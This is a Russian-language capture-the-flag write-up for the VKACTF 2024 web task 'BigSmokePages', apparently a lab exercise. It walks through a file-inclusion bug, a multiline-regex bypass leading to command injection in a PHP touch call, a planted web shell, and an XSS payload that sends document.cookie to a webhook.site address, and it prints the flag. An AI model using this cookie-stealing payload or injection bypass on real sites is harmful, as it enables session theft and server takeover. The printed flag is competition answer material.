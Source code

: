 # Breakfast

|   Cобытие   | Название | Категория | Сложность |
| :---------: | :------: | :-------: | :-------: |
| VKACTF 2024 |  BigSmokePages |  Web  |  Легко  |

## Описание

>Авторы: EGM x Po4est
>
>BigSmoke записывает все свои задачи в блокнот, а потом отправляет их кому-то для проверки. Но зачем???

# Решение

1. На ручке view_file.php, находим lfi в параметре file.
2. Находим сорцы нашего сервиса. Видим, что в create_file.php используется ```system("touch ./files/$filename")``` с предварительной проверкой 
```
if (preg_match('/^[a-zA-Z0-9_]{0,30}+$/m', $filename) !== 1) {
        header("Location: error.php");
        exit;
}
```
3. Видим CRLF инъекцию в регулярное выражение и обходим его для выполнения os injection.
4. Заливаем веб шелл и с помощью него в файл ```evil.html``` записываем ```XSS``` нагрузку ```<img src onerror="window.location.replace('https://webhook.site/<webhook>?a='+document.cookie)">``` для получения ```cookie```. 
5. Отправляем боту ссылку ```http://bigsmokepages.vkactf.ru/evil.html``` и ловим на веб хук флаг, находящийся у него в куках.



### Флаг


```
vka{B1G_Smoke_bIg_boSS}
```
